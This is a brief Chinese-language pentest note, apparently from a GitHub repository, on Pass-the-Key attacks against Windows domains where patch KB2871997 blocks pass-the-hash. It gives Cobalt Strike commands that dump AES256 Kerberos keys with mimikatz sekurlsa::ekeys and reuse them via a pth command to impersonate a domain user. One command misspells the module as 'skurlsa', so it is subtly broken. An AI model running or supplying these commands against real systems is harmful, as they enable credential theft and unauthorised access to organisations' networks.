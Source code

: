 PTK(pass the key)) 利用的ekeys aes256进行的渗透测试，不常用。

当系统安装了KB2871997 补丁(防止PTH) 且 禁用了NTLM认证的时候，那我们抓取到的ntlm的hash也就失去了作用，
但是可以通过PTK的攻击方式获得权限。
CS中跳板机命令
```
systeminfo //查看系统安装了KB2871997补丁
mimikatz sekurlsa::ekeys
mimikatz skurlsa::pth /user:域用户名 /domain:域名 /aes256:aes256值
```